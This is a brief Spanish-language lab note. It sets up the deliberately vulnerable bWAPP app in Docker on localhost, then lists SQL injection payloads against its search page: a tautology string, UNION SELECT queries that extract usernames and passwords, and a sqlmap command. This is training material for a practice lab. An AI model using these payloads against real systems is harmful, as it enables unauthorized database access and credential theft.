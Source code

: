 INTRODUCCIÓN

INSTALACIÓN DEL LABORATORIO UTILIZANDO DOCKER

docker pull raesene/bwapp docker run -d -p 8080:80 --name bwapp raesene/bwapp http://localhost:8080/

metasploitable2

ataque 1 SQL Injection (GET/Search) ' or '1' = '1--

' UNION SELECT null, null, null, null, null,null, null --

``` python
C:\Python27\python.exe sqlmap.py -u "http://localhost:8080/sqli_1.php?title=aa&action=search"

' UNION SELECT username, password, null, null, null FROM users –
```
